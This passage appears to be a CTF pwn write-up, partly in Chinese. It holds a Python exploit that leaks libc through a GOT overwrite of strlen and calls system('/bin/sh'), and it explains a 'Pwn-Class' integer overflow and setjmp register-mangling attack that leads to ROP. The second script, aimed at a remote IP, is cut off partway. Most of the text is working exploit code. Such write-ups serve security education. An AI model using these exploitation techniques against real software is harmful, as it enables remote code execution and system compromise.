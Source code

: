 ```
 add(0x20, 'AAAA', 'A'*0x18)
 add(0x20, 'AAAA', 'A'*0x18)
   
 edit(0, 'A'*0x18+p64(0xd1)) # note1
   delete(1)
 add(0x20, 'AAAA', 'A'*0x18)
 strlen_got = 0x602028
   add(0x10, 'AAAA', p64(strlen_got)+'d'*0x10)
 edit(3, p64(strlen_got)) #note2
   show(2)
 r.recvuntil('content: ')
 strlen_addr = u64(r.readline()[:-1].ljust(8, 'x00'))
   print "[*] strlen addr:`{`0`}`".format(hex(strlen_addr))
 libc = ELF("./libc-2.19.so")#ELF("/lib/x86_64-linux-gnu/libc.so.6")
   libc_base = strlen_addr - libc.symbols['strlen']
 system_addr = libc_base + libc.symbols['system'] 
 edit(2, p64(system_addr))
   
 edit(0, '/bin/shx00')
 r.interactive()
```

**<br>**

**Pwn-Class**

在init函数中num*200+8存在整形溢出，num控制得当可以使得分配的空间很小。Setjmp会将当前的寄存器保存到堆上（部分寄存器进行了rol和异或加密）。通过show功能可以泄露出保存的寄存器值，通过edit功能可以修改这些值，然后通过longjmp改变程序的控制流程，因为rsp和rip都能被随意修改，所以比较容易进行rop。

脚本：

```
from threading import Thread
from zio import *
target = './class'
target = ('58.213.63.30', 4001)
 
def interact(io):
    def run_recv():
        while True:
            try:
                output = io.read_until_timeout(timeout=1)
                # print output
            except:
                return
 
    t1 = Thread(target=run_recv)
    t1.start()
    while True:
        d = raw_input()
        if d != '':
            io.writeline(d)
 
def rerol(d):
    return ((d&lt;&lt;(64-0x11))+(d&gt;&gt;0x11))&amp;0xffffffffffffffff
 
def rol(d):
    return ((d&lt;&lt;0x11) + (d&gt;&gt;(64-0x11)))&amp;0xffffffffffffffff
 
def show(io, id):
    io.read_until('&gt;&gt;')
    io.writeline('2')
    io.read_until(':')
    io.writeline(str(id))
 
```